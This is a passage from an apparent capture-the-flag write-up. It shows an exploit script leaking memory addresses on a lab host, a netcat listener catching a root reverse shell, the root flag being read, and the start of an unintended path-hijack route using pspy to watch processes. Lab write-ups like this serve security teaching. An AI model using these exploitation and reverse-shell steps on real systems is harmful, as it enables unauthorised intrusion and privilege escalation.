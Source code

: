 Locally, I'll run the script to target remove. It leaks the address, and
then hangs:



    oxdf@parrot$ python3 root.py REMOTE
    [+] Opening connection to 172.20.0.10 on port 9001: Done
    [+] Leaked EXT address:          0x000056253b35215f
    [+] Calculated ERSA_DIR address: 0x000056253b3520f0



At the listener on web, there's a shell:



    www-data@web:~$ /tmp/nc -lnvp 4433
    Ncat: Version 6.49BETA1 ( http://nmap.org/ncat )
    Ncat: Listening on :::4433
    Ncat: Listening on 0.0.0.0:4433
    Ncat: Connection from 192.168.254.3.
    Ncat: Connection from 192.168.254.3:50426.
    root@pki:/tmp# id
    uid=0(root) gid=33(www-data) groups=33(www-data)



And `root.txt`:



    root@pki:/tmp# cat /root/root.txt
    da5d9a75************************



### Unintended Path Hijack

#### Enumeration

My favorite tool for watching processes on Linux is
[pspy](https://github.com/DominicBreuker/pspy). I'll upload it to pki
the same way I uploaded `socat` above, and give it a run:



    www-data@pki:/tmp$ ./pspy 
    pspy - version: v1.2.0 - Commit SHA: 9c63e5d6c58f7bcdc235db663f5e3fe1c33b8855


         ██▓███    ██████  ██▓███ ▓██   ██▓
        ▓██░  ██▒▒██    ▒ ▓██░  ██▒▒██  ██▒
        ▓██░ ██▓▒░ ▓██▄   ▓██░ ██▓▒ ▒██ ██░
        ▒██▄█▓▒ ▒  ▒   ██▒▒██▄█▓▒ ▒ ░ ▐██▓░
        ▒██▒ ░  ░▒██████▒▒▒██▒ ░  ░ ░ ██▒▓░
        ▒▓▒░ ░  ░▒ ▒▓▒ ▒ ░▒▓▒░ ░  ░  ██▒▒▒ 
        ░▒ ░     ░ ░▒  ░ ░░▒ ░     ▓██ ░▒░ 
        ░░       ░  ░  ░  ░░       ▒ ▒ ░░  
                       ░           ░ ░     
                                   ░ ░     

    Config: Printing events (colored=true): processes=true | file-system-events=false ||| Scanning for processes every 100ms and on inotify events ||| Watching directories: [/usr /tmp /etc /home /var /opt] (recursive) | [] (non-recursive)
    Draining file system events due to startup...
    done
    2021/08/16 11:43:37 CMD: UID=33   PID=9      | nginx: worker process 
    2021/08/16 11:43:37 CMD: UID=0    PID=8      | nginx: master process nginx 
    2021/08/16 11:43:37 CMD: UID=0    PID=6      | /bin/bash /entry.sh 
    2021/08/16 11:43:37 CMD: UID=33   PID=495    | ./pspy
    ...[snip]...
